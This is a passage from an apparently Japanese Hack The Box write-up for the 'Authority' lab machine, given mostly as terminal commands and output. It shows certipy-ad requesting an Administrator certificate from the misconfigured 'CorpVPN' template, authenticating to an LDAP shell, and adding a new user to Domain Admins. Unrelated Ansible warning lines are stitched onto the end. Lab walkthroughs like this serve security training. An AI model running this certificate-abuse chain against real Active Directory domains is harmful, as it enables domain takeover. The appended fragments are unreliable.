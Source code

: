 ```bash
    servicePrincipalName                : HOST/WIN-HACK3
                                          RestrictedKrbHost/WIN-HACK3
    dnsHostName                         : win-hack3.authority.htb
[*] Successfully created account 'WIN-HACK3$' with password 'T5AePoKlec2isM6l'


```

 管理者になりすます証明書をリクエスト
- 作成したマシンアカウントで、脆弱な証明書を取得する
```sh
┌──(kali㉿kali)-[~/Desktop/HTB/machine/Authority]
└─$ certipy-ad req \
  -username 'WIN-HACK3$@authority.htb.corp' \
  -password 'T5AePoKlec2isM6l' \            
  -ca 'AUTHORITY-CA' \
  -dc-ip 10.129.35.185 \
  -template 'CorpVPN' \
  -upn 'Administrator@authority.htb' \
  -dns authority.htb
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 9
[*] Successfully requested certificate
[*] Got certificate with multiple identities
    UPN: 'Administrator@authority.htb'
    DNS Host Name: 'authority.htb'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator_authority.pfx'
[*] Wrote certificate and private key to 'administrator_authority.pfx'




```


証明書を使って LDAP シェルに接続
```sh
┌──(kali㉿kali)-[~/Desktop/HTB/machine/Authority]
└─$ certipy-ad auth \
  -pfx administrator_authority.pfx \
  -dc-ip 10.129.35.185 \
  -ldap-shell
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'Administrator@authority.htb'
[*]     SAN DNS Host Name: 'authority.htb'
[*] Connecting to 'ldaps://10.129.35.185:636'
add_user haxor
[*] Authenticated to '10.129.35.185' as: 'u:HTB\\Administrator'
Type help for list of commands

# add_user haxor
Attempting to create user in: %s CN=Users,DC=authority,DC=htb
Adding new user with username: haxor and password: \Mk:d83O?Y.[@~m result: OK

# add_user_to_group haxor "Domain Admins"
Adding user: haxor to group Domain Admins result: OK

```


[WARNING]: No inventory was parsed, only implicit localhost is available
[WARNING]: No inventory was parsed, only implicit localhost is available
[WARNING]: No inventory was parsed, only implicit localhost is available